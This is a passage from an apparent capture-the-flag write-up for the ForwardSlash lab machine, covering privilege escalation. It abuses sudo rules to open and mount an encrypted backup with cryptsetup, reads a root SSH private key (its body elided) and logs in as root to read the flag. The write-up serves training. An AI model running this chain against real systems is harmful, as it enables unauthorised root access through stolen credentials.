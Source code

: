 We now have the key for the encrypted image from `/var/backups/recovery`: `cB!6%sdH8Lj^@Y*$C2cf` and can decrypt the image.

Checking out our sudo-privileges, we see that we have the necessary privileges to work with the image.

```bash
pain@forwardslash:~$ sudo -l
Matching Defaults entries for pain on forwardslash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pain may run the following commands on forwardslash:
    (root) NOPASSWD: /sbin/cryptsetup luksOpen *
    (root) NOPASSWD: /bin/mount /dev/mapper/backup ./mnt/
    (root) NOPASSWD: /bin/umount ./mnt/
```

#### Decrypting and mounting the image
```bash
pain@forwardslash:~$ sudo cryptsetup luksOpen /var/backups/recovery/encrypted_backup.img backup
Enter passphrase for /var/backups/recovery/encrypted_backup.img:
```

We can use cryptsetup luksOpen to decrypt our image with the name backup. This creates a block-device `/dev/mapper/backup`, which we are allowed to mount to `./mnt/`.

```bash
pain@forwardslash:/$ sudo mount /dev/mapper/backup ./mnt/
pain@forwardslash:/$ ls mnt/
id_rsa
pain@forwardslash:/$ cat mnt/id_rsa
-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----
pain@forwardslash:/$ sudo umount ./mnt/
```

Checking out the /mnt/ directory, we find and id_rsa file. After copying the file to our system we umount the device again. We can now use the id_rsa key to login to the machine as root and read root.txt.

```bash
root@darkness:~# ssh -i id_rsa root@10.10.10.183

root@forwardslash:~# cat root.txt 
e7014***************************
```
